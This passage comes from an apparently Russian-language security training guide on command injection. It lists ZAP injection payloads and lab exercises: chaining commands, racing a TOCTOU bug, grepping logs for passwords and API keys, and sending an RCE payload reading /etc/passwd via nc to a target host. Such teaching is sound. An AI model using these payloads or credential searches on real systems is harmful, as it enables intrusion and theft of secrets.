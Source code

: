 #### OWASP ZAP
```
Active Scan → Command Injection
Payloads: '; whoami', '|| id', '`cat /etc/passwd`'
```

## Практические задания

### Задание 1: Найти Command Injection

```bash
# Статический анализ
semgrep --config "p/command-injection" command_vulnerabilities.cpp

# Динамический тест
echo "ls; whoami" | ./command_app
# Должен выполнить обе команды
```

### Задание 2: Эксплуатация TOCTOU

```bash
# Компиляция с TSan
g++ -fsanitize=thread -g command_vulnerabilities.cpp

# Stress test
for i in {1..1000}; do ./a.out & done
# Найти успешную эскалацию
```

### Задание 3: Credentials Extraction

```bash
# Поиск паролей в истории
grep -rE "(password|api_key)" /var/log/command_history.log

# TruffleHog
trufflehog filesystem /var/log/
```

### Задание 4: Deserialization RCE

```bash
# Отправить malicious payload
echo "system|cat /etc/passwd" | nc target.com 8080

# Проверить execution
tcpdump -i any -A port 8080
```

## Защитные меры

### Defense in Depth
